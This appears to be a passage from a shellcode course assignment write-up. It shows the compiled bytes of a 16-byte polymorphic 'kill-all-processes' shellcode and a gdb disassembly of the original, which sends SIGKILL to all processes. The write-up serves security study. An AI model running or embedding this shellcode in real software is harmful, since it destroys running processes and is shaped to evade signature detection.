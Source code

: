 #### Compiling the Polymorphic Shellcode

```
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ ./compile.sh kill-all-processes
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\x6a\x09\xb0\x09\xb1\x04\xf6\xe1\xfe\xc0\x59\x6a\xff\x5b\xcd\x80"
[+] Size: 16 bytes
skawa@ubuntu:~/Desktop/code/assignment/assignment6$
```

#### Disassembly of the Original Shellcode

```nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ gdb -q ./kill-all-processes-original
Reading symbols from /home/skawa/Desktop/code/assignment/assignment6/kill-all-processes-original...(no debugging symbols found)...done.
(gdb) break _start
Breakpoint 1 at 0x8048080
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment6/kill-all-processes-original

Breakpoint 1, 0x08048080 in _start ()
(gdb) disas
Dump of assembler code for function _start:
=> 0x08048080 <+0>:	push   0x25
   0x08048082 <+2>:	pop    eax
   0x08048083 <+3>:	push   0xffffffff
   0x08048085 <+5>:	pop    ebx
   0x08048086 <+6>:	push   0x9
   0x08048088 <+8>:	pop    ecx
   0x08048089 <+9>:	int    0x80
End of assembler dump.
(gdb) break *0x08048089
Breakpoint 2 at 0x8048089
(gdb) c
Continuing.

Breakpoint 2, 0x08048089 in _start ()
(gdb) i r
eax            0x25	37
ecx            0x9	9
edx            0x0	0
ebx            0xffffffff	-1
esp            0xbffff6e0	0xbffff6e0
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
eip            0x8048089	0x8048089 <_start+9>
eflags         0x202	[ IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x0	0
(gdb)
```
